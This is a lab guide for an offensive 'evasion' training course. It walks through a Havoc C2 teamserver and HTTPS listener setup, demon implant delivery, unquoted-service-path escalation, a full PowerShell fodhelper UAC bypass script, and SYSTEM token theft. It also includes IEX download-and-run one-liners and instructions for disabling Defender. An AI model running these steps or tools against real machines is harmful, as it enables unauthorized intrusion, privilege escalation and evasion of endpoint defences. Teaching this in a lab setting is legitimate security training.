

Training
Intro : Threathunting Academy - Evasion

Welcome to the "Threathunting Academy - Evasion" this is the official lab guide that will guide you through the infrastructure. Students will all have their own Windows 10 client machine, a shared central Domain Controller and a Kali Red Team server and Forensics machine. All logs are centrally collected on and Ubuntu server running Elasticsearch and Kibana.
What you will learn in this training:
- How attack frameworks work
- AV and EDR internals and how to evade them
- Windows Defender, AMSI and ETW basics and evasion
- Powershell based attacks (in-memory)
- How signature based detection works and how to evade
- What Shellcode is, how to build and use shellcode
- Build your own evasive shellcode loader
- Build your own Forensics Lab
In this training we'll be using an Administrator account, this training is not about privilege escalation, but to show you how you can elevate a regular user to an Admin/System user, we'll have a brief lab doing just that.
With that out of the way we'll run all other labs with and admin user.
At the End of this training
- You will know how to set up your own malware analysis lab
- Have learned how privilege escalation, persistence, code-execution, evasion and other tehniques work.
- Modify existing attack tools to bypass defenses
- Learn how to analyze malware (static/dynamic)
- Work with attack frameworks, customize them with your own toolset and apply evasion techniques
- Build your own evasive
shellcode loaderusing memory injection, remote payloads, obfuscation, encryption and other evasion techniques - Understand how AV/EDR solutions work, where their telemetry comes from and how to bypass
Havoc C2
With a phletora of attack frameworks available (https://howto.thec2matrix.com), the most important requirement is malleability/customizability. Commonly known frameworks such as metasploit, cobalt strike, Empire (Starkiller GUI), BruteRatel, Mythic C2, Covenant and Sliver come to mind.

In this training we'll be using a rather new, cobalt strike like framework called Havoc C2.
HAVOC Requires
sudo apt install mingw-w64 -yon your kali !!! In case of compile errors, download this : https://github.com/troglobit/misc/releases/download/11-20211120/x86_64-w64-mingw32-cross.tgz extract to /usr/bin (#~$ sudo tar -xzvf [compilerZip].tgz -C /usr/bin)Then modify your /usr/share/havoc/profiles/havoc.yaotl file and change both the Compiler64 & Compiler86 variables to point to: "usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
Build {
Compiler64 = "/usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
Compiler86 = "/usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
Nasm = "/usr/bin/nasm"
}

https://github.com/HavocFramework/Havoc?tab=readme-ov-file
Attack frameworks typically all consist of the following elements
-
Teamserver The central C2 server that receives C2 traffic from implants on its listeners (i.e.
LHOSTin metasploit), management connections from the client as well as it typically also hosts payloads. -
Client This is the operater console that connects to the teamserver and allows the adversary to manage listeners, malleable profiles, payloads and implants.
-
Implant, beacon, demon, ... This is the actual malicious code that communicates back over a C2 channel to the teamserver, very often this is primarily a stager/loader (a tiny program that will download the actual malicious code and typically inject it in to memory of a current or remote process.) - attack frameworks will provide a
payload generatorthat can build different types of payloads (Exe's, dll's, shellcode, etc...).
The most known is probably MSFVenom from the Metasploit Framework.

- C2 Redirectors We won't be using this in the lab, but in real world scenarios these functies as proxies between the victim and the team-server (It's easier to pop up a new proxy, than a completely new teams-server)
Havoc C2 is the framework we will be using in this training, however the techniques we'll be using can be utilized in each of beforementioned frameworks.
On Kali we can simply install Havoc C2 with the following command (this is already done)
apt install havoc
Creating a custom profile
Let's have a look at the custom profile we have created for this team server. The profile will have the general settings such as users that can log in to the team server, user agents for HTTP/HTTPs listeners, and how our implants will behave.
OPSEC HINT : Always customize your profiles as default profiles are almost often finger printed by AV/EDR.
sudo nano /opt/Havoc/profiles/custom.yaotl
This is the content of the custom.yoatl profile:
Teamserver {
Host = "0.0.0.0"
Port = 40056
Build {
Compiler64 = "/usr/bin/x86_64-w64-mingw32-gcc" #latest version of kali this needs to be replaced
Nasm = "/usr/bin/nasm"
}
}
Operators {
user "Threatadmin" {
Password = "Threathunt25"
}
}
# demon setting.
Demon {
Sleep = 2
Jitter = 20
TrustXForwardedFor = false
Injection {
Spawn64 = "C:\\Windows\\System32\\Werfault.exe"
}
Binary {
ReplaceStrings-x64 = {
"demon.x64.dll": "",
"This program cannot be run in DOS mode.": "",
}
}
}
Running the teamserver

havoc server --profile /opt/Havoc/profiles/custom.yoatl -v --debug
Let's set thsis up as a service:
sudo nano /lib/systemd/system/havocservice.service
[Unit]
Description=HavocServer
After=network.target
[Service]
Type=idle
Restart=on-failure
User=root
ExecStart="/usr/bin/havoc" "server" "--profile" "/opt/havoc/profiles/https.yaotl"
[Install]
Change the file permisions, enable and start the service:
sudo chmod 644 /lib/systemd/system/
sudo systemctl daemon-reload
enable havocserver.service
sudo systemctl start havocserver.service
systemctl status havocserver.service
"
Running the client

In your terminal open a new tab, then run the following command:
havoc client
We can now log in to our teamserver using the user Threatadmin and the password which we defined in the custom Havoc C2 profile.

Let's start by setting up a listener:
https://havocframework.com/docs/profiles
In the Havoc GUI to to view and select listeners.

OPSEC HINT : Always customize your listeners by using valid user agents, also by using HTTPs we make sure our connections are harder to inspect. This is a nice website to generate user agents strings: https://useragents.io/parse/my-user-agent
Here's a regular chrome user agent from your windows machine:
Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Let's add an HTTPs listener, click on Add and enter the listener configuration. Give the listener a name, select Https and past the user agent in the correct field. Click on Save
Make sure you select the correct IP addres (host) for your machine! You can double check by running ifconfig.


We can also add this to our Havoc profile, so that all these settings are applied when starting the team server. But before we do that, lets keep our OPSEC in mind, we need HTTPS - and we bettter not use the default SSL certificates, those might be signatured.
Next we're going to create a self-signed SSL certificate (PEM) and key file - Self signed certificates are of course not ideal - in a real world scenario we'd have them signed by a trusted PKI.
cd /opt/havoc/
mkdir certs
cd certs
openssl req -new -newkey rsa:4096 -x509 -sha256 -days 365 -nodes -out public.crt -keyout private.key
Output:

Let's copy the custom.yoatl profile to a new HTTPS template where we'll add the certs, user-agent, listener settings and so on
cd /opt/havoc/profiles
sudo cp custom.yoatl https.yoatl
sudo nano /opt/Havoc/profiles/custom.yaotl
This is the new content of the custom HTTPS.yoatl profile:
Teamserver {
Host = "0.0.0.0"
Port = 40056
Build {
Compiler64 = "/usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
Compiler86 = "/usr/bin/x86_64-w64-mingw32-cross/bin/x86_64-w64-mingw32-gcc"
Nasm = "/usr/bin/nasm"
}
}
Operators {
user "Threatadmin" {
Password = "Threathunt25"
}
}
# HTTPS LISTENER AND CERTS
Listeners {
Http {
Name = "HTTPs Listener"
Hosts = ["kali"]
#KillDate = "2006-01-02 15:04:05"
#WorkingHours = "8:00-17:00"
HostBind = "0.0.0.0"
PortBind = 443
PortConn = 443
HostRotation = "round-robin"
Secure = true
UserAgent = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36"
Cert {
Cert = "/opt/havoc/certs/public.crt"
Key = "/opt/havoc/certs/private.key"
}
}
}
# demon setting.
Demon {
Sleep = 2
Jitter = 20
TrustXForwardedFor = false
Injection {
Spawn64 = "C:\\Windows\\System32\\Werfault.exe"
Spawn32 = "C:\\Windows\\SysWOW64\notepad.exe"
}
Binary {
ReplaceStrings-x64 = {
"demon.x64.dll": "",
"This program cannot be run in DOS mode.": "",
}
}
}
Now close your Havoc Teamserver and client in terminal (control-c) and start the teamserver again with your new profile:
havoc server --profile /opt/havoc/profiles/https.yoatl -v --debug
Open a second tab in your terminal and run:
havoc client
Let's go and check if our profile has created the HTTPS listener - in the Havoc client go to VIEW, Listeners, select the HTTPs Listener and click on edit. You'll see the following (please note the host bind address will be different from the screenshot).

On your windows machine when we browse with Chrome to the HTTPs listener (https://10.0.0.7:443), we'll now see our own custom self-signed certificate - one IOC less for AV/EDR to trigger on! And C2 traffic is now encrypted!

We'll create a vanilla demon payload as an executable, make sure all settings are like in the screenshot below (we'll go into the advanced evasion settings later on), save the payload in "/opt/havoc/payloads" directory:

On your kali machine, go your terminal and let's hosts this payload so we can download it on our windows victim machines:
cd /opt/havoc/payloads
updog2

Now, on your windows machine use Chrome and go to http:\\kali:9090\ and download the Havoc demon ("demon.x64.exe") to
NOTE: "C:\Temp" is is whitelisted in MS Defender, we will deal with AV Evasion later on, for now we just want to make sure our code executes and sets up a c2 connection.

IMPORTANT: For the time being turn your Windows Defender
OFF.
We want to start with regular user privileges, so open a command prompt running as the unprivileged user student.
runas /user:student cmd.exe
Enter the password, and in the new command prompt you are now running as a regular user with medium integrity.

Now from this new command prompt running as unprivileged user, execute the payload:
cd \temp
demon.x64.exe


We can now interact with this implant by right-clicking the icon and selecting "Interact".


Let's check if our demon is actually running with the student account in medium integrity.
whoami

We now have a simple Havoc demon payload running on the victim client, of course this would have been detected by AV, and as a regular user we can't do all the cool stuff - so let's continue and see how we can elevate privileges.
Privilege Escalation / Persistence
In order to escalate privilege from a regular user to a higher level account (Administrator/System Authority), you need either a misconfiguration (typically permission issues on services, scheduled tasks etc...) or an exploit (Remote/Rogue/Sweet/Rotten/Juicy/God Potato etc..) - a properly patched and configured system will provide challenges to escalte privileges from a standard user to a administrator user.
That being said, there are numerous techniques to obtain hashes/passwords, that don't requite administrator privileges - such as kerberoasting, ntlm relaying and password spraying.
Running as a regular unprivileged user:


Running as an administrator:

What is SeDebugPrivilege?
SeDebugPrivilege is a special privilege in Windows that allows a user or process to debug other processes, even those running under different security contexts or with higher privileges, such as system services. This privilege is part of Windows' security model, which uses privileges to control what actions a user or process can perform on the system.
Key Points About SeDebugPrivilege
Purpose:
- By default, users can only debug processes they own (i.e., processes they started or are running under their user account).
- SeDebugPrivilege extends this capability, allowing a process or user with this privilege to:
- Attach a debugger to,
- Inspect, or
- Modify any process on the system, including those running as other users or as the SYSTEM account (a highly privileged account in Windows).
How It Works:
- The privilege is managed through Windows security policies and can be assigned or revoked by an administrator.
- It is typically enabled for members of the Administrators group by default on many Windows systems, but this can be changed via Group Policy Objects (GPOs) or local security policies.
- To use SeDebugPrivilege, a process must explicitly request it using Windows API functions like
LookupPrivilegeValueandAdjustTokenPrivileges. This involves:- Obtaining a handle to the process token.
- Enabling the privilege.
Default Settings: On many Windows versions (e.g., Windows 10), it’s assigned to the
Administrators group by default, which can be risky if not properly managed. Even with SeDebugPrivilege, some actions (like injecting into a SYSTEM process) may still fail if other security mechanisms, such as User Account Control (UAC) or additional restrictions, are in place.Note: Administrators can control SeDebugPrivilege through the Local Security Policy editor (secpol.msc) or Group Policy Management Editor. It is listed under "User Rights Assignment" as "Debug programs". To enable or disable it, an administrator can modify the security policy to add or remove user groups (e.g., Administrators) from having this privilege.
Escalating from unprivileged user to SYSTEM in 3 steps:

UNQUOTED SERVICE PATH
SUMMARY
Adversaries may execute their own malicious payloads by hijacking vulnerable file path references. Adversaries can take advantage of paths that lack surrounding quotations by placing an executable in a higher level directory within the path, so that Windows will choose the adversary's executable to launch.
Service paths and shortcut paths may also be vulnerable to path interception if the path has one or more spaces and is not surrounded by quotation marks (e.g., C:\unsafe path with space\program.exe vs. "C:\safe path with space\program.exe"). [2] (stored in Windows Registry keys) An adversary can place an executable in a higher level directory of the path, and Windows will resolve that executable instead of the intended executable. For example, if the path in a shortcut is C:\program files\myapp.exe, an adversary may create a program at C:\program.exe that will be run instead of the intended program.
This technique can be used for persistence if executables are called on a regular basis, as well as privilege escalation if intercepted executables are started by a higher privileged process.
MITRE

-
AlwaysInstallElevated (MSI)
-
Unquoted Service Path (Services)
- Requires missing "quotes"
- and whitespaces in the path
- write permission in the (sub)folder that holds the service binary
To exploit, the exe needs to be named after the directory it's in, i.e:
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
- Create folders "C:\MyPrograms\Vulnerable Service"
- create pingservice in vs2019
- copy pingservice as "VulnService.exe" to this path
sc create VulnService binPath= "C:\MyPrograms\Vulnerable Service\VulnService.exe"
sc config VulnService obj= ".\Threatadmin" password= "password"
sc qc VulnService
sc start VulnService
When there are spaces in a service path, windows will try to find the service as follows:
It will parse "C:\MyPrograms\Vulnerable Service\service.exe" into
- Potential service : "C:\MyPrograms\vulnerable.exe"
- with arguments
Service\service.exe
By placing a malicious service exe in "C:\MyPrograms" named vulnerable.exe, we'll escalate privileges to NT SYSTEM AUHTORITY (if the service is running with those privileges)
Then drop metasploit payload (renamed to Vulnerable.exe) in C:\MyPrograms.
https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/UnquotedServicePath.md
Run the following tools as a regular unprivileged user (runas /user:student powershell.exe)
- [+] SharpUp/Powerup
- [+] WinPeas
WINPEAS
Runas student (unprivileged)
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
Use the Havoc session to upload a havoc.exe renamed to vulnerable.exe to the C:\MyPrograms\Vulnerable Service\ path, and then start the VulnService, using the havoc shell command.
upload /opt/havoc/demonsvc.x64.exe c:\MyPrograms\Vulnerable.exe
sc.exe start VulnService
Please note that regular users can't restart services, but after a reboot this will automatically execute.
You'll now have a 2nd beacon with NT AUHORITY\SYSTEM privileges.
IMPORTANT: We achieve not only
Privilege Escalation, but alsocode-executionandpersistence!!!
Lab - PrivEsc
IMPORTANT : Please do not send submit samples to
Virus Total or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training. Make sure at all times that sample submussion in Microsoft Defender isturned off, and if for some reason you get prompted to submit a sample, deny the request.
IMPORTANT : Make sure Windows Defender is turned OFF!!!
First of all, we need to find if there are any misconfigurations on the Windows victime - we can use several tools.
- WinPeas
- SharpUp
- PowerUp
In our Havoc client let's generate a new payload, but this time a windows service that we can drop in the directory of the vulnerable service:

dotnet inline-execute /opt/havoc/tools/SharpUp.exe audit UnquotedServicePath

We now know there's a service that we can abuse for executing a payload, but does it also run with higher privileges as the current user? Remember we want to escalate our privileges. Let's find out.
We can do this with some simple native windows commands, first check which account this service runs with.
sc query vulnservice

Then let's see which privileges this Threatadmin user has (i.e. member of the Administrators group).
net localgroup "Administrators" | find "Threatadmin"

In Havoc we can use these commands as well by using the SHELL command - this executes cmd.exe commands and gets the output:

and

However, HAVOC has plenty of build-in commands we can use and that are more opsec safe, these commands typically use BOF's (Beacon Object Files).
DEFINITION:
A BOF is a
position-independent codefile, typically in the Common Object File Format (COFF), generated by a C compiler. It is not a standalone executable but rather a lightweight module that runswithin the memoryspace of a Beacon process. BOFs allow developers to add new post-exploitation features or capabilities to the Beacon agent without requiring a separate process creation or injection, which can be noisy and detectable by security tools.
ADVANTAGES:
- BOFs have a minimal footprint (often less than 3KB, compared to larger files like Reflective DLLs or .NET assemblies), making them harder to detect by antivirus (AV) or endpoint detection and response (EDR) systems.
- They run in-memory within the Beacon process, avoiding disk writes or process creation, which reduces their visibility. They use internal Beacon APIs and limited Windows APIs. This in-process execution contrasts with traditional methods like fork-and-run, which create new processes and are more likely to trigger security alerts.
LIMITATIONS
- BOFs are not suited for
large or long-running tasks. They lack support for complex linking (e.g., no .bss section for global variables) and are best for quick, one-off commands.
We can use BOF's for enumerating the vulnerable service, just like we did before, and finding out if the service account is privieleged or not:


So now we know we have a service on the system that has an unquoted service path, the directory is writeable by regular users (in real scenarios the c:\users\username\appdata folder is a common location that unprivileged users have full access to), and the acoount being used is privileged.
Let's see what happens if we drop our havoc service payload (havoc.x64svc.exe) in the "c:\Myprograms" directory, and rename it to Vulnerable.exe.
We can do this with HAVOC:

If we have a look on our windows machine we can see the malicious service executable was dropped in the "C:\MyPrograms" folder. Now whenever this services (re-)starts, it will execute our havoc payload instead of the actual service.
Instead of rebooting our Windows machine, let's just start the service manually (this requires admin privileges)and see what happens, open a command prompt:
sc start vulnservice

We can see a new demon spawned, under the Threatadmin account, let's check our privileges by interacting with out new session, using the command whoami:
whoami
We can now see that we are running a new demon, with an admin account and our process is running in HIGH integrity (services that run with privileged acounts always run in high integrity by the way).
UAC - User Account Control (Privilege Escalation)
SUMMARY
Adversaries may bypass UAC mechanisms to elevate process privileges on system. Windows User Account Control (UAC) allows a program to elevate its privileges (tracked as integrity levels ranging from low to high) to perform a task under administrator-level permissions, possibly by prompting the user for confirmation. The impact to the user ranges from denying the operation under high enforcement to allowing the user to perform the action if they are in the local administrators group and click through the prompt or allowing them to enter an administrator password to complete the action.
If the UAC protection level of a computer is set to anything but the highest level, certain Windows programs can elevate privileges or execute some elevated Component Object Model objects without prompting the user through the UAC notification box. An example of this is use of Rundll32 to load a specifically crafted DLL which loads an auto-elevated Component Object Model object and performs a file operation in a protected directory which would typically require elevated access. Malicious software may also be injected into a trusted process to gain elevated privileges without prompting a user.
Many methods have been discovered to bypass UAC. The Github readme page for UACME contains an extensive list of methods that have been discovered and implemented, but may not be a comprehensive list of bypasses. Additional bypass methods are regularly discovered and some used in the wild.
MITRE

TL;DR: User Account Control (UAC) is a security feature in Windows that helps prevent unauthorized changes to your computer. These changes can be initiated by applications, viruses, or other forms of malware. UAC ensures that such changes cannot be made without your knowledge or consent, adding an extra layer of security.
UAC splits the Administrative user’s token into a medium and a high integrity token. When that user tries to run something as an administrator, a prompt is shown which they must accept, which then the high integrity token is then applied to that process or thread.
A UAC bypass is going from the Administrative user’s
mediumintegrity token tohighintegrity token without having to interact with the prompt.

Process and integrity levels
screenshot admin user medium integrity
IMPORTANT:
UAC Bypassesonly work for users that are in the administrator group on the local machine.

How UAC Works
-
Permissions and Elevation When you or an application tries to make changes that require administrative privileges, UAC prompts you to confirm or deny the action. This is known as elevation. Only an administrator account can provide the necessary permission to proceed.
-
Secure Desktop In higher UAC settings, the prompt appears on the secure desktop. This is a screen dimming feature that makes it difficult for malware to interact with or spoof the UAC prompt. Essentially, it ensures that the prompt is coming from Windows and not from a malicious program.
-
Levels of Notification UAC has different levels of notification settings, ranging from always notifying you of changes to never notifying you (effectively turning off UAC).
User Account Control (UAC) has four levels of notification settings:
-
Always notify: This is the highest level of protection. It notifies you before any changes are made to your computer that require administrator permissions. It also freezes other tasks until you respond.
-
Notify me only when programs try to make changes to my computer: This is the
DEFAULTlevel. It notifies you when programs try to make changes to your computer or install software. -
Notify me only when programs try to make changes to my computer (do not dim my desktop): Similar to the previous level, but it doesn't switch to the Secure Desktop with desktop locking.
-
Never notify: This is the lowest level of protection. UAC is disabled, and you won't be notified when changes are made to your computer.
You can adjust these settings by moving the slider in the User Account Control Settings window.

Running a simple powershell command that add's a registry key with some values shows nicely what this actually means:

Check if UAC is enabled (1 = enabled, 0 is disabled)
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object EnableLua
And to check which level it is :
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System' |Select-object ConsentPromptBehaviorAdmin
| Value | Description |
|---|---|
| 0 | No Prompt |
| 1 | Prompt for credential on the secure desktop |
| 2 | Prompt for CONSENT on the secure desktop |
| 3 | Prompt for Credentials on the normal desktop |
| 4 | Prompt for CONSENT on the normal desktop |
| 5 | Prompt for CONSENT for non-windows binaries |
https://www.youtube.com/watch?v=ZhaZJ4Uipqk
Fodhelper
Demo with cmd.exe -> medium level even if admin runas show whoami / groups show system informer
start beacon as unprivileged user
whoami groups
sudo apt install mingw-w64 -y
git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
make
In Havoc -> Script Manager Load .py
Set Sleep to 10
uac-bypass sspidatagram c:\windows\system32\cmd.exe
uac-bypass sspidatagram c:\temp\demon.x64.exe -> NT Authority\System
uac-bypass silentcleanup /opt/havoc/payloads/demon.x64.exe -> error
Priv Esc.
powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/peass-ng/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"
UAC Bypass (admin user -> high integrity) -> PrivsFU -> NT AUTH
Example using a vulnerable service running as administrator but not in highest privileges
User student_adm (integrity medium)
import-module .\FodhelperBypass.ps1
PS C:\Temp> FodhelperBypass -program "cmd.exe"
FODHELPER UAC BYPASS
Fodhelper UAC Bypass Explanation
The Fodhelper UAC bypass is a technique used to escalate privileges on Windows systems by exploiting the fodhelper.exe executable, a trusted Microsoft binary. This method allows attackers or testers to bypass User Account Control (UAC) prompts, enabling the execution of commands with elevated (high-integrity) privileges without user interaction. Below is a detailed explanation of how it works, its requirements, and mitigation strategies, formatted in Markdown.
Table of Contents
- UAC - User Account Control (Privilege Escalation)
- SUMMARY
- MITRE
- Process and integrity levels
- FODHELPER UAC BYPASS
- Fodhelper UAC Bypass Explanation
What is Fodhelper?
Fodhelper.exe is a legitimate Windows executable located in C:\Windows\System32\fodhelper.exe. Introduced in Windows 10, it is used to manage optional features, such as region-specific keyboard settings or language changes, accessible via the "Manage Optional Features" option in Windows Settings. Key characteristics include:
- Signed by Microsoft: Ensures authenticity and trust.
- Auto-elevate Privilege: Runs with a high-integrity level due to its
autoElevateflag set totruein its manifest, meaning it can execute with elevated privileges without triggering a UAC prompt under most UAC settings.
What is UAC?
User Account Control (UAC) is a Windows security feature that prevents unauthorized changes to the operating system by requiring user approval for actions needing administrative privileges. When a process requests elevation, UAC displays a prompt asking for consent or credentials. The fodhelper bypass exploits a trusted binary to avoid this prompt.
How the Fodhelper UAC Bypass Works
The bypass leverages the way fodhelper.exe interacts with the Windows Registry, specifically the HKEY_CURRENT_USER (HKCU) hive, which is writable by the current user without administrative privileges. Here's the core mechanism:
-
Registry Key Manipulation:
- When
fodhelper.exeruns, it queries the registry keyHKCU\Software\Classes\ms-settings\Shell\Open\commandto check for a command to execute. - This key does not exist by default, and the current user has permission to create and modify it.
- An attacker can create this key and insert a custom command (e.g., launching
cmd.exeor a malicious script).
- When
-
Auto-elevation:
- Since
fodhelper.exeis a trusted binary with theautoElevateflag, it runs with high integrity automatically. - When it reads the manipulated registry key, it executes the attacker's command in a high-integrity context, bypassing the UAC prompt.
- Since
-
Execution Flow Hijacking:
This method was first documented in 2017 and has been used by malware like Trickbot and in penetration testing scenarios.
Requirements for the Bypass
- Operating System: Windows 10 (build 1709 or higher; some sources indicate earlier builds like 10240 are also vulnerable).
- User Privileges: The user must be part of the Administrators group. The bypass does not work for standard users.
- UAC Settings: The bypass works with most UAC settings except when UAC is set to "Always Notify" (highest level), where a prompt is still required.
- Registry Access: The attacker needs write access to the
HKCUhive, which is typically available to any logged-in user.
Step-by-Step Exploitation
-
Create Registry Structure:
-
Execute Fodhelper:
- Run
fodhelper.exe(e.g., viaC:\Windows\System32\fodhelper.exe). - The executable reads the manipulated registry key and executes the specified command with high integrity.
- Run
-
Cleanup (Optional):
Example Code
Below is a PowerShell script to perform the fodhelper UAC bypass, based on publicly available proofs of concept. Warning: Do not run this on production systems, as it modifies the registry and can trigger antivirus detection.
# Fodhelper UAC Bypass Script
function FodhelperBypass {
param (
[String]$program = "cmd.exe /c powershell.exe" # Default command
)
# Create registry structure
New-Item -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(Default)" -Value $program -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -PropertyType String -Force
# Execute fodhelper.exe
Start-Process -FilePath "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
# Cleanup (wait and remove registry keys)
Start-Sleep -Seconds 3
Remove-Item -Path "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
}
# Example usage
FodhelperBypass -program "cmd.exe /c start powershell.exe"
A simpler two-line command-line version, as shared on X, is:
REG ADD HKCU\Software\Classes\ms-settings\shell\open\command /ve /d "cmd.exe" /f
REG ADD HKCU\Software\Classes\ms-settings\shell\open\command /v DelegateExecute /t REG_SZ /f
Detection and Mitigation
Detection
- Monitor Registry Changes:
- Process Monitoring:
- Windows Defender Alerts:
- Token Attributes:
Mitigation
- Set UAC to "Always Notify":
- Endpoint Security:
- Least Privilege:
- Patch and Update:
- Registry Hardening:
- Restrict write access to
HKCU\Software\Classesfor non-admin users, though this may break legitimate functionality.
- Restrict write access to
Limitations and Risks
- Limited to Administrators: Only works for users in the Administrators group, not standard users.
- Antivirus Detection: Windows Defender and other AV solutions may detect and block the bypass, especially if not obfuscated. Renaming executables can mitigate this.
- System Impact: Modifying the registry can cause unintended behavior if not cleaned up properly.
- Not a Full Privilege Escalation: This is a UAC bypass, not a true local privilege escalation (e.g., from standard user to admin).
- Ethical Use: This technique should only be used in authorized penetration testing or research environments. Unauthorized use is illegal and unethical.
References
- TCM Security: Bypassing Defender with Fodhelper
- Pentestlab: UAC Bypass – Fodhelper
- Medium: By Pass UAC Using Fodhelper
- Elastic Security Labs: Exploring Windows UAC Bypasses
- Splunk: Detection of Fodhelper UAC Bypass
- GitHub: FodhelperBypass.ps1 by winscripting
- X Post by @xxByte (2021)
This explanation provides a comprehensive overview of the fodhelper UAC bypass, including its mechanics, implementation, and countermeasures. Always use such techniques responsibly and within legal boundaries.
Now user in in High Interity - running TokenPlayer (whicj enables sedebugprivilege) will now escalate to system!
In havoc, running admin user in high integrity, you still need to set sedebugprivilege in order to use STEAL TOKEN:
04/04/2025 14:05:18 [Threatadmin] Demon » token privs-get SeDebugPrivilege
[*] [F6CB1E4A] Tasked demon to enable a privilege: SeDebugPrivilege
[+] Send Task to Agent [41 bytes]
[+] The privilege SeDebugPrivilege was successfully enabled
04/04/2025 14:05:31 [Threatadmin] Demon » token steal 4536
[*] [20765EC8] Tasked demon to steal a process token
[+] Send Task to Agent [24 bytes]
[+] Successful stole and impersonated token from 4536 User:[NT AUTHORITY\SYSTEM] TokenID:[0]
Lab - UAC Bypass
IMPORTANT : Please do not send submit samples to
Virus Total or any other public virus-scanning services, unless specifically instructed. We don't want to burn our payloads for this training. Make sure at all times that sample submussion in Microsoft Defender isturned off, and if for some reason you get prompted to submit a sample, deny the request.
IMPORTANT: For this lab we will
TURN OFF Windows Defender . We will deal with AV evasion techniques later, for now let's focus on making sure we can escalate to the highest level of privileges (NT AUTHORITY\SYSTEM).
On kali :
cd /opt/havoc
mkdir modules
cd modules
https://github.com/icyguider/UAC-BOF-Bonanza.git
cd UAC-BOF-Bonanza
make
First let's now load or new UAC Bypass Module in havoc by clicking on SCRIPT MANAGER and locating the Havoc-UACBypass,py file.
On your windows machine, open a command prompt
cd c:\temp\
demo.x64.exe

We have a beacon running in as user Threatadmin in HIGH intergity - but not as SYSTEM yet (don't worry this also works from medium integrity). We can run the whoami command to confirm this.

We can see here that the demon implant is running with
- user Threatadmin
- Part of the local administrators group
- in High integrity level
Now in the Havoc UI let's interact with this beacon and run our UAC-Bypass.

uac-bypass sspidatagram c:\temp\demon.x64.exe

A new demon implant will spawn, but now running with SYSTEM privileges as you can verify this by interacting with this new session and running the whoami command again.

When opening systeminformer we can see the 2 demon implants (verify the process ID's)

To do the same attack but from an admin user running with MEDIUM integrity, just open a command prompt and type:
runas /user:student_adm cmd.exe
This will run a command prompt as administrator (student_adm is part of the admininistrator group)
STEALING TOKENS
https://posts.specterops.io/understanding-and-defending-against-access-token-theft-finding-alternatives-to-winlogon-exe-80696c8a73b https://gist.github.com/vector-sec/a049bf12da619d9af8f9c7dbd28d3b56
SUMMARY
Adversaries may modify access tokens to operate under a different user or system security context to perform actions and bypass access controls. Windows uses access tokens to determine the ownership of a running process. A user can manipulate access tokens to make a running process appear as though it is the child of a different process or belongs to someone other than the user that started the process. When this occurs, the process also takes on the security context associated with the new token.
